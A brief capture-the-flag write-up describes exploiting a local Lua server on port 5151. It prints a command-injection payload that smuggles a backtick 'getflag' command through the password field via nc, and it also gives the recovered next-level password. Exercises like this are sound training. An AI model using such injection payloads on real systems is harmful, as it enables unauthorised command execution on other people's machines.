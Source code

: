 We can see a .lua file. We guess that there is a server running with this script.
So we try to connect with nc with the elements we got in the file:
`nc 127.0.0.1 5151`
It works but it's asking us a password.
We first try to dehash the password in the .lua file, `NotSoEasy` but it didn't work.
We asked ourself why there was no output on our side regarding the :
```
      print("trying " .. l)
```
And in fact, it was printing something, but not on our side, but on the server side.
So we tried to redirect the output to a file in the `tmp` directory. And we tried to execute the command `getflag`. We did it by doing so :
```
echo \`getflag\` \>/tmp/yop\ | nc 127.0.0.1 5151; cat /tmp/yop
```
That's how we got the flag.

```
su level12
fa6v5ateaw21peobuub8ipe6s
```
